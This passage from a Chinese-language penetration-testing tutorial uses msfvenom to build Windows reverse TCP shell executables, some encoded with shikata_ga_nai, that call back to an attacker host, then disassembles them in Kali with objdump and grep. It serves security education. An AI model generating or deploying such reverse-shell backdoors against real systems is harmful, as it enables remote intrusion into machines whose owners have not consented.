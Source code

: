 强调的是 *万无一失*。从中可以得到的启示是，你必须尽可能了解你的目标环境。我们很容易沉迷于疯狂的打字黑客技术，以至于忘记了传统的侦察工作。

但我跑题了。我们来快速看看 `x86/shikata_ga_nai` 编码器，感受一下它的工作原理。我们不会深入探讨编码器内部的机制，但这是一个回顾在 Kali 中检查 Windows 可执行文件汇编的好机会。

## 在 Kali 中的 Windows 二进制文件反汇编

我们要做的事情非常简单——生成三个 Windows 二进制文件。两个文件将使用完全相同的参数——我们将执行相同的`msfvenom`命令两次，输出到不同的文件名以便比较——但是会使用`x86/shikata_ga_nai`编码器。然后，我们将生成相同的 shellcode 作为 Windows 二进制文件，但不使用任何编码器。负载是一个简单的反向 TCP shell，指向我们的主机`192.168.108.117`，端口为`1066`：

# msfvenom --payload windows/shell/reverse_tcp LHOST=192.168.108.117 LPORT=1066 --encoder x86/shikata_ga_nai --format exe > shell1.exe

# msfvenom --payload windows/shell/reverse_tcp LHOST=192.168.108.117 LPORT=1066 --encoder x86/shikata_ga_nai --format exe > shell2.exe

# msfvenom --payload windows/shell/reverse_tcp LHOST=192.168.108.117 LPORT=1066 --format exe > shell_noencode.exe

使用`sha256sum`比较两个编码后的 payload EXE 文件。在不查看单个字节的情况下，我们可以看到每次迭代的代码都是唯一的：

![图 12.5 – 比较我们两个编码后的恶意软件 PE 文件的指纹](img/Figure_12.05_B17616.jpg)

图 12.5 – 比较我们两个编码后的恶意软件 PE 文件的指纹

在 Kali 中分析二进制文件有两个不可或缺的工具：`xxd`和`objdump`。`xxd`是一个十六进制转储工具，它将二进制文件的原始内容以十六进制形式输出。`objdump`是一个更通用的工具，用于分析对象文件，但它的功能使其成为一个便捷的反汇编器。将这些工具的强大功能与`grep`结合，你就有了一种快速粗略地查找二进制文件中特定模式的方法。让我们从对未编码的 Windows 后门进行反汇编开始：

# objdump -D shell_noencode.exe -M intel

请注意，我使用的是 Intel 格式的反汇编；毕竟这是一个 Windows 可执行文件。即使是 Windows 爱好者，在 Kali 上查看反汇编也能感到得心应手。这是一个很大的输出——请拿杯咖啡，慢慢浏览。在此期间，让我们看看能否在这个文件中找到`LHOST`的 IP 地址。我们知道`192.168.108.117`的十六进制表示是`c0.a8.6c.75`，所以让我们使用`grep`来找出它：

# objdump -D shell_noencode.exe -M intel | grep "c0 a8 6c 75"
